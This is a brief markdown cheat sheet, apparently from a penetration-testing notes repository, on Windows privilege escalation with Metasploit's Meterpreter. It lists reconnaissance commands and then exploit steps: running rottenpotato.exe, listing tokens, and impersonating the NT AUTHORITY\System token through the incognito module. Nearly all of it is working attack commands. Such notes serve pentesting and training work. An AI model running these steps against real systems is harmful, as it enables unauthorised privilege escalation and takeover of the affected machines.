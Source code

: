 # Metasploit

## 01 - Detect

```
meterpreter > getuid

meterpreter > getprivs
```

```
meterpreter > run post/multi/recon/local_exploit_suggester
```

## 02 - Exploit

If service is not running as SYSTEM.

```
meterpreter> execute -f rottenpotato.exe -Hc
meterpreter> list_tokens -u
meterpreter> impersonate_token "NT AUTHORITY\\System"
 ```

If service is running as Administrator.

```
meterpreter> use incognito
meterpreter> load incognito
meterpreter> list_tokens -u
meterpreter> impersonate_token "NT AUTHORITY\\System"
```
